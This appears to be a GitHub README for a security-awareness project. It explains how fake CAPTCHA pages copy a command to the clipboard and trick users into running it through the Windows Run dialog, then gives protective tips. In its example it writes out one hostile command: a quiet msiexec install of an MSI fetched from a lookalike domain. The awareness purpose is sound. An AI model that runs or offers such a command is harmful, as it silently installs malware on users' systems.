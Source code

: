# CAPTCHA Social Engineering Attack – A Silent Threat You Should Know About

<!-- Optional GitHub Banner Image URL -->

![captcha social engineering](https://github.com/user-attachments/assets/bd9416a2-6672-4344-bf6c-eb65180158cc)


## 📖 Overview

In today’s cybersecurity landscape, attackers are becoming smarter and using creative ways to trick unsuspecting users. One such dangerous and deceptive technique is called a **CAPTCHA Social Engineering Attack** — a method that abuses the familiar "I'm not a robot" CAPTCHA to compromise your system.

---

## ⚙️ How This Attack Works

1. You visit a suspicious or malicious website.
2. The site shows a seemingly legitimate CAPTCHA — similar to Google or Cloudflare’s human verification.
3. Believing it’s genuine, you click the CAPTCHA checkbox.
4. **Silently, a malicious command gets copied into your clipboard** without your knowledge. Example:

```
msiexec /qn /i https://clloudsverify.com/o.msi
```

5. Then you see a message like this:

> "To complete the verification process, press **Win + R**, then **Ctrl + V**, and hit Enter."

6. Once you obey:

   * **Win + R** opens the Run dialog.
   * **Ctrl + V** pastes the malicious command.
   * **Enter** executes it.

This installs malware silently — no alerts, no warnings.

---

## 🎯 Why This Attack is Dangerous

* **Trust Exploitation**: Users assume CAPTCHA equals safety.
* **Clipboard Hijacking**: Code is injected silently.
* **Social Engineering**: Users are tricked into executing commands.
* **Stealthy Execution**: The command uses Windows Installer (`msiexec`) in quiet mode (`/qn`) to avoid detection.

---

## 💥 Potential Impacts

* ⚠️ Full system compromise
* ⚠️ Theft of credentials, files, personal data
* ⚠️ Installation of Remote Access Trojans (RATs)
* ⚠️ Long-term backdoor access for attackers

---

## 🛡️ How to Protect Yourself

✅ **Never follow online instructions** asking you to use Win + R and paste commands.

✅ **Always check clipboard content** before pasting — open Notepad, press Ctrl + V, and inspect.

✅ **Avoid unknown or suspicious websites**.

✅ **Keep security software updated**.

✅ **Educate others** about such modern social engineering methods.

---

## 🚫 Important Reminder

Just because a CAPTCHA appears doesn’t mean a site is trustworthy. Fake CAPTCHAs can easily be weaponized for such attacks.

> **Stay alert. Stay secure.** 🔐

---

## 📜 License

This project is licensed under the **MIT License** — see the [LICENSE](LICENSE) file for details.

---

## 🏷️ GitHub Topics

`cybersecurity` `social-engineering` `clipboard-attack` `malware` `security-awareness` `hacking` `information-security` `cyber-threats`

---

## 🙌 Contributions

Contributions, suggestions, and improvements are welcome. Feel free to open an Issue or Pull Request.

---

## 🔗 Author

**Md Jahid Hasan Antor**
[LinkedIn]([https://www.linkedin.com/in/jahid-hasan-antor]) | [GitHub](https://github.com/AntorDOS)

---

*This repository is intended for educational and awareness purposes only.*
